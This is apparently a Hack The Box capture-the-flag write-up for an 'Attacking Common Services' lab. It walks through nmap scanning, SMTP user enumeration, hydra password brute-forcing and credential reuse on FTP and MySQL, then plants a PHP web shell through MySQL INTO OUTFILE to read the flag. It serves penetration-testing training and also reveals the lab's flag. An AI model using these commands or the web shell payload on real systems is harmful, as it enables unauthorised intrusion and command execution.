








# Attacking Common Services - Easy
The following labs will contain flags in the format `HTB{...}`. We are tasked to review the security of each of the 3 servers and present it to the customer.

This lab is a server that manages emails, customers, and their files.

## Approach
To understand what services are running on the target, we can perform a Nmap scan.
```bash
nmap -sV -sC 10.129.233.19
```

<br>
From the results, we can see that the target is running:
- FTP on port 21
- SMTP on port 25/587
- HTTP/S on port 80/443
- MySQL on port 3306
- RDP on port 3389

The FTP service does not allow anonymous login.

Let's try to enumerate the SMTP service with `smtp-user-enum`. The username list is provided by HTB under the "Resources" tab in "Attacking Common Services Userlist".
```bash
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.233.19
```
<br>
We can see that we found a valid user, `fiona@inlanefreight.htb`. I will then brute force fiona's password with `hydra`.
```bash
hydra -l 'fiona@inlanefreight.htb' -P /usr/share/wordlists/rockyou.txt smtp://10.129.233.19
```
We then successfully found a valid credential, `fiona@inlanefreight.htb:987654321`.

I proceeded to try accessing FTP with the found credentials, `fiona:987654321` due to possible password reuse. <br>
After turning off passive mode, I found an interesting file, `WebServersInfo.txt`.
<br>
We can see that the text file mentions that CoreFTP is being used.
<br>

We know that there is also MySQL service running on the target.<br>
We can try to access the service with fiona's account.
```bash
mysql -u fiona -p -h 10.129.233.19 --skip-ssl
```
With this, I managed to access MariaDB. First, let me check if fiona has limitations of data import and export operations.<br>
<br>
Since the value is empty, there is no effect.

We can then write a file in the webserver directory, then curl the file location and execute our commands. From `WebServersInfo.txt`, we can see that Apache is also being used and the directory is `C:\xampp\htdocs\`, so we can upload our file there to browse it from our machine.
```mysql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:\\xampp\\htdocs\\webshell.php';
```
<br>

Now, I can execute commands on this webshell with `curl http://10.129.233.19/webshell.php?c=<cmd>`.


To add spaces in our URL, we need the URL-encoding for space, which is `%20`.
```bash
curl http://10.129.233.19/webshell.php?c=type%20C:\\Users\\Administrator\\Desktop\\flag.txt
```

We then obtained the flag: `HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}`.